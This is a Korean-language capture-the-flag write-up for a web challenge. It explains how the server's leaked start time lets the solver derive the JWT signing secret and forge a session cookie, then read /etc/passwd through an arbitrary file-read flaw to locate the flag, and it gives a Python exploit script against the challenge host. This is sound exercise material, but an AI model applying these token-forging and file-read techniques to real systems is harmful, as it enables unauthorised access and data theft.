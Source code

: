 
- `Dockerfile`에서는 ctf라는 유저의 홈디렉토리를 램덤한 값으로 설정함
``` dockerfile
# copy files
COPY server.py ${directory}/server.py
COPY flag.txt ${directory}/flag.txt
RUN mkdir -p ${directory}/files
RUN for i in {1..5}; do (echo $(cat /dev/urandom | tr -dc a-f0-9 | fold -w32 | head -n1) > ${directory}/files/$(cat /dev/urandom | tr -dc a-f0-9 | fold -w32 | head -n1)); done
```


---
### Strategy
- 서버 시간을 그냥 알려주고 있어서 그 정보를 가지고 `SECRET_KEY`를 알아내는건 쉬움
- 파일을 읽을 수 있으니 `flag`를 읽을 방법을 찾으면 됨
- `../`이 경로를 필터링하고 있는데 해당 방식을 우회하려고했지만 우회를 못했음
- 그래서 절대 경로를 이용하려고 했지만 `Dockerfile`에서 봤듯 경로가 무작위 값으로 되어있어서 접근할 수 없음
- 그러나 `/etc/passwd`를 먼저 읽어 `ctf` 사용자의 홈디렉토리 경로를 알아낼 수 있음
- 이를 이용해 절대경로로 flag를 읽을 수 있음
---
### Exploit
```python
import requests
import jwt
import hashlib
import time

# ===========round1===============

latency = 2
time_started = 1715945665 + latency


app_secret = hashlib.sha256(str(time_started).encode()).hexdigest()

payload = {
    "userid": 0,
}


encoded_jwt = jwt.encode(payload, app_secret, algorithm="HS256")
headers = {"Cookie": f"session={encoded_jwt}"}
response = requests.get(
    "https://random.chal.cyberjousting.com/api/files",
    headers=headers,
)

print(round(time.time()))
print(time_started)
print(app_secret)
print(encoded_jwt)
print(response.text)

# ===========round2===============
response = requests.get(
    "https://random.chal.cyberjousting.com/api/file?filename=/etc/passwd",
    headers=headers,
)

print(response.text)

# ctf:x:1000:1000::/439f4860b2c8e9cc50bf2e5dca2e442f:/bin/sh

```